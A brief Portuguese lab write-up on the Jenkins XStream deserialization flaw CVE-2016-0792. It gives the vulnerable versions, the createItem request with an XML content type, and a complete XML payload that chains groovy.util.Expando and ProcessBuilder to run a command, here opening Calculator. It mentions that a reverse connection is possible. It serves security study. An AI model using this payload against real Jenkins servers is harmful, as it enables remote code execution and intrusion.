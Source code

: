 ## XStream in Jenkins - CVE-2016-0792
Jenkins suporta que objetos sejam serializados com base na biblioteca XStream.
As versões do Jenkins anteriores a 1.650 e LTS anteriores a 1.6.42.2 são vulneráveis a execução remota de comando de usuários autenticados através da serialização de dados em arquivos XML processados pelas bibliotecas XStream e groovy.util.Expando. 

No payload abaixo é usado a classe groovy.util.Expando e a classe java.lang.ProcessBuilder.
As tags <string> podem conter comandos para a execução remota, e dependendo do cenário, pode ser executado uma conexão reversa, conforme essa [PoC](https://github.com/jpiechowka/jenkins-cve-2016-0792). 

No lab disponibilizado pelo Pentester Lab, a exploração ocorre ao criar um novo Job Externo. Na requisição, o parâmetro name é manipulado como query na URL ```/view/All/createItem?name=teste``` e no cabeçalho HTTP, o content-type é modificado para ```text/xml```
```
<map>
  <entry>
    <groovy.util.Expando>
      <expandoProperties>
        <entry>
          <string>hashCode</string>
          <org.codehaus.groovy.runtime.MethodClosure>
            <delegate class="groovy.util.Expando"/>
            <owner class="java.lang.ProcessBuilder">
              <command>
                <string>open</string>
                <string>/Applications/Calculator.app</string>
              </command>
            </owner>
            <method>start</method>
          </org.codehaus.groovy.runtime.MethodClosure>
        </entry>
      </expandoProperties>
    </groovy.util.Expando>
    <int>1</int>
  </entry>
</map>
```
